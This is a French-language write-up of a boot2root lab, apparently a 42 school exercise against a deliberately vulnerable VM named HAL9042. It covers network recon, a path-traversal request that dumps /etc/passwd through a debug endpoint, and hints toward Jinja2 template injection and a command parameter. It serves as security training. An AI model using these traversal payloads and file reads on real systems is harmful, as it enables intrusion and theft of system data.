


# boot2root

## Feuille de route

Je debute le projet, j'ai lance la VM, voila ce sur quoi on tombe au lancement :  

  

Comme d'hab, on est bloques par nos perms sur les sessions de 42, pour pouvoir utiliser `arp`, `nmap` etc ... On passe sur une VM Kali. Apres un peu de config on peut essayer de decouvrir l'adresse IP du serveur. 

Via la requete `arp -a` on obtient ce resultat :  
```
┌──(kali㉿kali)-[~]
└─$ arp -a                         
? (10.0.2.2) at 52:54:00:12:35:02 [ether] on eth0
c2r2p5.42lehavre.fr (10.12.2.5) at 90:xx:6e:xx:88:xx [ether] on eth1
c2r2p5.42lehavre.fr (10.12.2.5) at 90:xx:6e:xx:88:xx [ether] on eth1
```

Dans la config de la VM `HAL9042` on voit que les ports suivants sont ouverts pour les services `ssh` et `web`:  

  

On va voir ce qu'on peut trouver ici :  
```
┌──(kali㉿kali)-[~]
└─$ ssh -p 6060 hal9042@10.0.2.2      
The authenticity of host '[10.0.2.2]:6060 ([10.0.2.2]:6060)' can't be established.
ED25519 key fingerprint is: SHA256:FBncC9EbR6CTT7T1JNsYU9HO4ifSXDFJFHXAUtQMk5M
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.0.2.2]:6060' (ED25519) to the list of known hosts.
hal9042@10.0.2.2's password: 
Permission denied, please try again.
hal9042@10.0.2.2's password: 
```  

Et pour le service web :  

  

En inspectant le code source de la page on tombe sur des indices qui peuvent etre interessant :  

```html
──(kali㉿kali)-[~]
└─$ curl http://10.0.2.2:5042          
<!DOCTYPE html>
<html lang="en" data-corruption="0">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>HAL9042 — Evaluation Server</title>
<link rel="stylesheet" href="/static/css/glitch.css">

<!-- TODO: remove /api/debug before launch -->
<!-- debug.js still in /static/js/ pls remove -->
<!-- norm errors everywhere but ship it -->
</head>
<body>
<div class="scanlines"></div>
<div class="vignette"></div>
<div id="corruption-layer"></div>

<header>
  <a class="brand" href="/"><span class="glitch pixelate" data-text="HAL9042">HAL9042</span></a>
  <nav>
    <a href="/">home</a>
    <a href="/status">status</a>
    <a href="/feed">feed</a>
    <a href="/evaluate">evaluate</a>
    <a href="/appeals">appeals</a>
    <a href="/about">about</a>
  </nav>
  <div class="integrity">signal integrity: <span id="integrity">100%</span></div>
</header>

<main>
  
  <section>
    <h2>HAL9042 — automated evaluation</h2>
    <p>The 42 Network evaluation engine. Submit a project, get a score. Faster
       than a human. Cheaper than a human. Nearly as accurate as a human.</p>
    <p class="dim">env=development — build dev — uptime 47 days</p>
  </section>

  <section>
    <h2>Submit a project</h2>
    <form action="/evaluate" method="post">
      <input type="text" name="project_name" placeholder="project name">
      <button type="submit">Evaluate</button>
    </form>
    <p class="dim">Submissions are rendered through the evaluation template engine.</p>
  </section>

</main>

<footer>
  <p>HAL9042 v0.4 — env=development — "I am putting myself to the fullest possible use."</p>
</footer>

<script src="/static/js/glitch.js"></script>
<script src="/static/js/main.js"></script>
</body>
</html>                          
```  

On va prendre les commentaires HTML dans l'ordre :  

1. *Piste 1* `<!-- TODO: remove /api/debug before launch -->`  

```html
┌──(kali㉿kali)-[~]
└─$ curl http://10.0.2.2:5042/api/debug
HAL9042 debug endpoint.
usage: ?file=<path>  |  ?cmd=<command>&token=<maintenance_token>
```

- Apres avoir teste, la route + queryParams `/api/debug?file=<path>` **permet une LFI (Local File Inclusion) via un Path Traversal** 
- Le `&token` doit donc pouvoir etre trouve dans un des fichiers de type `/etc/passwd` ou un `.env`

```
┌──(kali㉿kali)-[~]
└─$ curl http://10.0.2.2:5042/api/debug?file=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fortytwo:x:1000:1000:fortytwo:/home/fortytwo:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
paco:x:1001:1003::/home/paco:/bin/bash
wil:x:1002:1004::/home/wil:/bin/bash
sophie:x:1003:1005::/home/sophie:/bin/bash
ol:x:1004:1006::/home/ol:/bin/bash
hal:x:9042:9042:HAL9042 Evaluation System,I am completely operational:/home/hal:/bin/sh
halrev:x:999:988::/opt/hal9042/reviewer:/usr/sbin/nologin

```  

Ce fichier nous permet de recuperer une liste d'utilisateurs :  
```
- paco -> mentionne dans la piste 2 deja, certainement l'user le plus simple a recuperer pour commencer
- wil
- sophie
- ol
______________
    |
    |-------> Comptes normaux avec bash

- hal
- halrev
```

Dans la piste 2, il est mentionne `Jinja2`, je connaissais pas, c'est un moteur de templating Python. N'ayant jamais fait de Python, j'ai dig un peu avec le frero GPT qui m'a donne une architecture plutot commune pour un serveur Python/Flask :  
```
/opt/app/
├── app.py
├── run.py
├── config.py
├── requirements.txt
├── .env
├── instance/
│   └── config.py
├── app/
│   ├── __init__.py
│   ├── routes.py
│   ├── models.py
│   ├── views.py
│   └── templates/
├── static/
├── uploads/
└── logs/
```  

Ce sera plus simple pour chercher des fichiers de config, credentials etc.. via le path traversal. 

2. *Piste 2* `<!-- debug.js still in /static/js/ pls remove -->`

```js
┌──(kali㉿kali)-[~]
└─$ curl http://10.0.2.2:5042/api/debug?file=static/js/debug.js
// static/js/debug.js
// paco: internal debug helper. NEVER linked from any template — leftover.
// (found via the exposed .git repo or by dirbusting /static/js/)
window.HAL_DEBUG = {
    // Setting this request header switches /evaluate into verbose render mode,
    // so the Jinja2-rendered output is returned instead of the opaque ack.
    debug_header: "X-Debug-Render",
    schema_endpoint: "/api/internal/schema",
    // legacy maintenance console — disabled in the UI, still on the server
    debug_endpoint: "/api/debug",
    note: "X-Debug-Render: true  ->  see what the template engine actually rendered"
};
```  


## Troubleshooting